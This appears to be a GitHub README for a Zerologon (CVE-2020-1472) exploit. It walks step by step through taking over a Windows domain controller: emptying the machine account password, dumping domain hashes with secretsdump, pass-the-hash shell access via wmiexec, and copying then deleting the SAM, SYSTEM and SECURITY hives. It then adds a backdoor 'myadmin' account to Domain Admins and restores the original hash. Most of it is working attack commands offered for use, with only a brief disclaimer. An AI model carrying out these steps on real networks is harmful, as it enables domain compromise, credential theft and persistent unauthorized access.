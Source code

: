 # zerologon
zerologon script to exploit CVE-2020-1472 CVSS 10/10
Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc. https://github.com/risksense/zerologon

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/b867b21 or newer.

`apt update`  

`apt remove --purge impacket-scripts python3-impacket`  
`apt autoremove`  

`git clone https://github.com/rthalley/dnspython.git`  
`sudo python3 setup.py install`  
`cd ..`  
`git clone https://github.com/SecureAuthCorp/impacket.git`  
`cd impacket`  
`sudo python3 setup.py install`  
`git clone `  

Then, do:

`python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR`

If that's successful you will then be able to:

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

pressing "Enter" on prompt for password will pass you through,
which should get you Domain Admin hash. After you have that, wmiexec.py to the target DC with a credential from the secretsdump 

`wmiexec.py domain/Administrator@ip -hashes hash`

and do

`reg save HKLM\SYSTEM system.save`  
`get system.save`  
`del /f system.save`  


`reg save HKLM\SAM sam.save`  
`get sam.save`  
`del /f sam.save`  


`reg save HKLM\SECURITY security.save  
get security.save  
del /f security.save`  

And then you can create a new Admin account just in case, 

`net user myadmin Hello1234 /ADD /DOMAIN`

and add the new account to domain admins group to obtain full privilages,

`net group "Domain Admins" myadmin /ADD /DOMAIN`

and probably `exit` now from C:\>

Then you can run

`sudo secretsdump.py -sam sam.save -system system.save -security security.save LOCAL`

And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by

`python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH`

Reinstalling the original hash is necessary for the DC to continue operating normally.

And just to make sure if the restoration process worked,

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

and prressing "Enter" at password prompt won't work anymore.

And we're done here.

Happy hunting.

DISCLAIMER: This is purely for educational purposes, I will not be held responsible for any actions or their consequences
HACKING INTO SOMEONE ELSE'S DEVICE IS ILLEGAL AND IS PUNISHABLE BY LAW.
